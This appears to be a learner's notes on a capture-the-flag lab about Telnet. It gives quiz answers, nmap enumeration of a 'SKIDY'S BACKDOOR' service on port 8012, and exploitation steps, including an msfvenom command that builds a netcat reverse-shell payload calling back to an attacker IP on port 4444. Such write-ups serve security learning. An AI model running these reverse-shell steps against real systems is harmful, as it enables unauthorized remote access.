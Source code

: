 ##### Questions

- What is Telnet? [_application protocol_]
- What has slowly replaced Telnet? [_ssh_]
- How would you connect to a Telnet server with the IP 10.10.10.3 on port 23? [`telnet 10.10.10.3 23`]
- The lack of what, means that all Telnet communication is in plaintext? [_encryption_]
  - This was probably more of a research question, but I just kinda guessed lol, kinda obvious though

#### Enumerating Telnet

- Need to be thorough

##### Questions

- How many ports are open on the target machine? [_1_]
- What port is this? [`8012`]
- This port is unassigned, but still lists the protocol it's using, what protocol is this? [_tcp_]
- Now re-run the nmap scan, without the -p- tag, how many ports show up as open? [_0_]
- Based on the title returned to us, what do we think this port could be used for? [_a backdoor_]
  - In nmap scan: `SKIDY'S BACKDOOR`
- Who could it belong to? Gathering possible usernames is an important step in enumeration. [_skidy_]

#### Exploiting Telnet

- There are CVEs in `searchsploit` for Telnet. Being un-encrypted, Telnet is very insecure and has poor access control
- Most likely with Telnet, you'll find some misconfigurations
- We know
  - There is a poorly hidden telnet service running on this machine
  - The service itself is marked "backdoor"
  - We have possible username of "Skidy" implicated

- A reverse shell is a type of shell in which the target box communicates back to the client box
  - The client would have a port open, which would receive a connection, resulting in code or a command to be executed being archived

##### Questions

- Connect to the telnet port
  - `telnet $THM_IP 8012`
- What's the welcome message? [`SKIDY'S BACKDOOR`]
- Do we get a return on any input we enter into the telnet session? [_No_]
- Run a tcpdump listener using `sudo tcpdump ip proto \\icmp -i tun0`
- Run `ping 10.6.89.232 -c 1` on the telnet machine
- Generate a reverse shell payload using msfvenom ON THE CLIENT MACHINE: `msfvenom -p cmd/unix/reverse_netcat lhost=10.6.89.232 lport=4444 R`
  - It made it sound like this needed to be ran on the telnet session. It creates a command to run on telnet

```
    -p = payload
    lhost = our local host IP address (this is your machine's IP address)
    lport = the port to listen on (this is the port on your machine)
    R = export the payload in raw format
```
